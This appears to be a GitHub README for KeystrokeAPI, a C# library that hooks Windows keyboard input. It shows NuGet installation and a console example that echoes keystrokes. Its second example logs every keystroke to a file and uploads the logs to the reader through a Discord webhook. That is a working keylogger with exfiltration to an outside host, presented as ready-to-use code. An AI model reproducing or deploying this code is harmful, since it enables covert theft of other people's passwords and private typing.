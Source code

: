 # KeystrokeAPI
A simple Keystroke API written in C# that works for any version of Windows. It abstracts the access to the *win32.dll* and the handling of low level hooks (only keyboard for now). 

## Instalation
```sh
Install-Package KeystrokeAPI
```
## How to use

**1 -** Call the *CreateKeyboardHook()* method passing your callback like this:

```c#
api.CreateKeyboardHook((character) => { Console.Write(character); });
```
**2 -** Implement your own "*Windows Message Loop*" **OR** call this:
```c#
Application.Run();
```
*NOTE: This call starts the windows message loop for you, but you will need to reference the System.Windows.Forms.dll in your project*. [Click here to know why].


## Code Example (using a Console Application) 
```c#
class Program
{
    static void Main(string[] args)
    {
        using (var api = new KeystrokeAPI())
        {
            api.CreateKeyboardHook((character) => { Console.Write(character); });
            Application.Run();
        }
    }
}
```

   [Click here to know why]: <http://stackoverflow.com/a/7460728/890890>

## Code Example 2 (Get logs file through Discord Webhook) 

```c#
using Keystroke.API;
using System;
using System.Runtime.CompilerServices;
using System.Windows.Forms;
using Keystroke.API.CallbackObjects;
using Keystroke.API.Helpers;

namespace ConsoleApplicationTest
{
	class Program
	{
		static void Main(string[] args)
		{
			// Create Loggin Save Request (1)
			LoggerSaver log = new LoggerSaver();
			// Create your discord url webhook (3)
			LoggerUploader LogUpload = new LoggerUploader("Discord URL WEBHOOK");
			// Subscribe to the event to upload the logs and send them to you (4)
			log.UserTyping += LogUpload.OnUserTyping;
			
			using (var api = new KeystrokeAPI())
			{
				api.CreateKeyboardHook((character) =>
				{
					Console.Write(character);
					// Start saving keystroke (2)
					log.LogDataToFile(character);
				});
				
				Application.Run();
			}
		}
	}
}

```